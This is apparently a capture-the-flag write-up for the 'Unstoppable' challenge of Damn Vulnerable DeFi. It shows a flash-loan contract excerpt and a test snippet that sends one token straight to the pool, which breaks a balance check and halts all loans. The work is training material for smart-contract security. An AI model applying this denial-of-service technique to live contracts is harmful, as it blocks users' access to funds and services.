 ```yaml
---
description: 'Challenge #1'
---
```


# Unstoppable

## Mission

There's a lending pool with a million DVT tokens in balance, offering flash loans for free.

If only there was a way to <mark style="color:yellow;">attack and stop the pool from offering flash loans</mark> ...

"You start with 100 DVT tokens in balance."

* The goal is to stop the pool from offering <mark style="color:yellow;">flash loans</mark>
* Essentially a Denial of Service (DoS) attack

## Exploit

* We know that we need to cause a form of DoS
* We need to discover where the flash loan function occurs

### Flash Loan Function

```
// ...
require(borrowAmount > 0, "Must borrow at least one token");
require(balanceBefore >= borrowAmount, "Not enough tokens in pool");
assert(poolBalance == balanceBefore);
require(
  balanceAfter >= balanceBefore,
  "Flash loan hasn't been paid back"
);
```

* Now we have identified where the flash loan function takes place
* The borrow amount must be greater than zero
* <mark style="color:yellow;">If the balance and the pool balance are not equivalent, the contract will always fail on the flash loan function above</mark>

### Exploit Code

Add the following to the //enter exploit code here function in the challenge.js file:

```
it('Exploit', async function () {
        // transfer tokens to it to break it!
    await this.token.transfer(this.pool.address, 1)
    });
```

* Go to terminal and execute <mark style="color:yellow;">`yarn run unstoppable`</mark> inside the /damn-vulnerable-defi folder and you will get a checkmark next to the unstoppable challenge

### Proof

<figure><img src="../../.gitbook/assets/image (10) (2).png" alt=""><figcaption></figcaption></figure>
